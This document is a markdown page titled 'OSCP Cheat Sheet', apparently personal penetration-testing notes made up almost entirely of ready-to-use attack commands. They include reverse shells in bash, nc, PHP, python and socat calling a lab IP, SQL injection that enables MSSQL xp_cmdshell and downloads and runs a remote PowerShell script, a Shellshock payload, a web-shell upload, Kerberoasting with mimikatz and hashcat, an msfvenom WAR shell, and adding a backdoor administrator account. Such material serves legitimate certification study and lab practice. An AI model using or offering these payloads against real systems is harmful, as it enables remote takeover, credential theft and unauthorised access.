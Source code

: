 ```yaml
---
title: OSCP Cheat Sheet
date: 2021-06-13 06:25:40
tags:
- OSCP
- Penetration Test
---
```


# Pentest Cheatsheet

Bash reverse shell

```bash
bash -i >& /dev/tcp/192.168.19.35/8907 0>&1
```

```bash
/bin/bash -c "/bin/bash -i >& /dev/tcp/192.168.119.142/8908 0>&1"
```

Shellshock

```bash
curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'id'" \
http://localhost:8080/cgi-bin/test.bin | tail
```

python PTY upgrade

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```

MSSQL enable xp_cmdshell

```sql
';exec sp_configure 'xp_cmdshell', 1; RECONFIGURE;--
```

MSSQL reverse shell with one-liner

```sql
exec master..xp_cmdshell "powershell -c iex(New-Object net.webclient).DownloadString('http://192.168.119.142:12345/Invoke-PowerShellTcpOneLine.ps1')"
```

MSSQL enable xp_cmdshell and exec

```sql
';exec sp_configure 'xp_cmdshell', 1; RECONFIGURE;exec master..xp_cmdshell "powershell -c iex(New-Object net.webclient).DownloadString('http://192.168.119.142:12345/Invoke-PowerShellTcpOneLine.ps1')";--
```

MSSQL check for stack query

```sql
'; WAITFOR DELAY '0:0:5'; --
```

nc reverse shell

```bash
nc -e /bin/bash 192.168.119.142 8907
```

PHP reverse shell with python

```php
<?php system("python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"192.168.119.142\",8907));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);'");?>
```

PHP reverse shell with python with double quote escaped

```php
<?php system("python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"192.168.119.142\",8907));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'");?>
```

PHP reverse shell with bash -c

```php
<?php system("/bin/bash -c 'bash -i >& /dev/tcp/\"192.168.119.142\"/443 0>&1'");?>
```

PHP reverse shell with bash (won't work on /bin/sh -> /bin/dash)

```php
php -r 'exec("/bin/bash -i >& /dev/tcp/192.168.119.142/8908 0>&1");'
```

PHP reverse shell with bash -c with double quote escaped

```bash
php -r 'exec("/bin/bash -c \"/bin/bash -i >& /dev/tcp/192.168.119.142/8908 0>&1\"");'
```

socat TTY upgrade

```bash
socat file:`tty`,raw,echo=0 tcp-listen:8908
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:192.168.119.142:8908
```

curl multipart/form-data file upload example

```bash
curl -F files=@ciph3r.php http://10.11.1.123/books/apps/jquery-file-upload/server/php/index.php
```

Powershell reverse shell

```powershell
powershell -c iex(New-Object net.webclient).DownloadString('http://192.168.119.142:12345/Invoke-PowerShellTcpOneLine.ps1')
```

Kerberoast

```powershell
# Get Users with SPNs
.\GetUserSPNs.sp1
# Get Service Tickets
Add-Type -AssemblyName System.IdentityModel
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "MSSQLSvc/xor-app23.xor.com:1433"
# Extract Tickets
mimikatz # kerberos::list /export
# Crack Tickets with tgsrepcrack.py
./tgsrepcrack.py rockyou.txt 2-40a10000-xor-app59\$@MSSQLSvc\~xor-app23.xor.com\~1433-XOR.COM.kirbi
# Or Hashcat/JohnTheRipper(much faster)
./kirbi2john.py ../2-40a10000-xor-app59\$@MSSQLSvc\~xor-app23.xor.com\~1433-XOR.COM.kirbi >> ../kerberos.hash
.\hashcat.exe -m 13100 -a 0 F:\kerberos.hash F:\rockyou.txt
```

Powershell Invoke-WebRequest

```powershell
powershell -c Invoke-WebRequest http://192.168.119.142:12345/
```

Java War file reverse shell

```shell
msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.119.142 LPORT=8907 -f war > cipher.war
```

Windows show hidden files

[How-to｜Show Hidden Files Using Command Lines in Windows 10/8/7](https://www.diskpart.com/articles/show-hidden-files-command-line-8523.html)

```powershell
dir /a:h /b /s
```

MSSQL get other table from other databse

```sql
SELECT other_database..syscolumns.name, TYPE_NAME(other_database..syscolumns.xtype),NULL FROM other_database..syscolumns, other_database..sysobjects WHERE other_database..syscolumns.id=other_database..sysobjects.id AND other_database..sysobjects.name='other_table'--
```

Windows create remote login user

```powershell
net user /add cipher cipher
net localgroup administrators cipher /add
```

Runas Administrator

```powershell
runas /user:administrator <command>
```

Openssl Generate passwd

```bash
openssl passwd -1 -salt cipher cipher
```
<!--stackedit_data:
eyJoaXN0b3J5IjpbLTEwNjYxNTcxOTBdfQ==
-->